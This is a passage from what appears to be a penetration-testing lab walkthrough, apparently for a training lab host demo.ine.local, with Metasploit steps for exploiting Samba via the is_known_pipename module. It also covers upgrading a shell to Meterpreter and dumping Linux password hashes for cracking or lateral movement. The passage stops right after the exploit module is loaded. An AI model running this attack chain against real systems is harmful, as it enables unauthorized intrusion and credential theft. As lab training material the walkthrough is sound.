 Access the file containing the dumped hashes:

```bash
cat [path]
```

### Conclusion

What we accomplished:
- Gained initial access to the target system using a **Samba exploit**.
- Upgraded the initial **cmd shell session** to a **Meterpreter session** for more advanced post-exploitation tasks.
- Used the **hashdump** module to gather password hashes from the compromised Linux system.
- Reviewed and accessed the dumped hashes for further post-exploitation tasks like password cracking or lateral movement.

This demonstrates how to use Metasploit’s **hashdump** feature for password extraction from a compromised Linux system.


## Post Exploitation Lab 2

## Overview

In this lab, we are performing **post-exploitation tasks** on a compromised Linux system. By using various Metasploit post-exploitation modules, we will gather credentials, dump hashes, and explore other sensitive information to aid further exploitation.

## Demo: Post Exploitation Process

### Step-by-Step Process

Start PostgreSQL and launch Metasploit:

```bash
service postgresql start && msfconsole
```

Perform an Nmap scan to identify services on the target system:

```bash
db_nmap -sV -p- -T5 demo.ine.local
```

### Exploiting Samba

Search for the **Samba exploit module**:

```bash
search samba
```

Use the **Samba is_known_pipename** exploit module:

```bash
use exploit/linux/samba/is_known_pipename
```
